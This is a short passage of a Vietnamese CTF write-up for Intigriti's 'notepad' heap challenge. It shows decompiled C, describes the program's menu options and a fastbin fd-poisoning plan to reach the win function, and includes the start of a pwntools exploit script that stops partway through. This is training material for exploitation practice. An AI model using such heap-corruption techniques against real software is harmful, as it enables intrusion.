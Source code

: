 ```c
    exit(0);
  }
  puts("Add your note:");
  printf("> ");
  v5 = *((_QWORD *)&notepad + v3);
  v1 = read(0, *((void **)&notepad + v3), size);
  *(_BYTE *)(v1 - 1 + v5) = 0;
  return __readfsqword(0x28u) ^ v6;
}
```


option 2  : 

chọn 1 idx và in phần content của chunk đó ra 


![image](https://hackmd.io/_uploads/Bk3KmYdzJe.png)



option 3 : 

nhập 1 idx và được chỉnh sửa chunk đó đến tận 0x100 byte 

![image](https://hackmd.io/_uploads/r1CnXYOGkx.png)



option 4 : 

free với idx mà ta nhập vào 


![image](https://hackmd.io/_uploads/HJGlEKufJl.png)

option 5 : 

goị hàm win và lấy flag , tuy nhiên nó check key với 1 giá trị 

![image](https://hackmd.io/_uploads/rJf-EFOG1x.png)

vậy ý tưởng là ta sẽ trigger fd của fastbin 

allocate 2 chunk -> free 2 chunk để A->B , dùng edit để thay đổi fd của A thành key , malloc lại với key là giá trị cần 

- thay đổi xong thì gọi hàm win 

script : 
```
```python3
#!/usr/bin/env python3

from pwn import *

exe = ELF("./notepad_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

#p = process()
p = remote('notepad.ctf.intigriti.io', 1341)

def create(idx,size,content):
    p.sendlineafter(b'> ',b'1')
    p.sendlineafter(b'> ',idx)
    p.sendlineafter(b'> ',size)
    p.sendafter(b'> ',content)
def view(idx):
```